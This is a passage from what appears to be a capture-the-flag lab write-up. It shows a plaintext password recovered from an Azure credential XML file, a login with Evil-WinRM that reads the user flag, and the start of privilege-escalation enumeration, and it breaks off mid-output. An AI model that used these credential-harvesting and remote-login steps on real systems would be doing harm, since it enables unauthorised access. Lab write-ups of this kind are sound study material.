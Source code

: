 ```
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
## User
looking at content of the `azure.xml` we find a password `4n0therD4y@n0th3r$` init. which is possibley `mhope` user password. we'll try login into the box with these credentials using `Evil-WinRM`.
```
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> cd ../Desktop

*Evil-WinRM* PS C:\Users\mhope\Desktop> ls


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 user.txt


*Evil-WinRM* PS C:\Users\mhope\Desktop> cat user.txt
4961976bd7d8f4eeb2ce3705e2f212f2
```
Now we're user `mhope` and we can read the `user.txt` file. 

## Privilege Escalation

Taking a look at look at privileges of `mhope` user we can find the user is a memeber of `Azure Admins` group.

```
*Evil-WinRM* PS C:\Users\mhope\Desktop> whoami /all                                                                                                                  
                                                                                                                                                                     
USER INFORMATION                                                                                                                                                     
----------------

User Name      SID
============== ============================================
megabank\mhope S-1-5-21-391775091-850290835-3566037492-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
```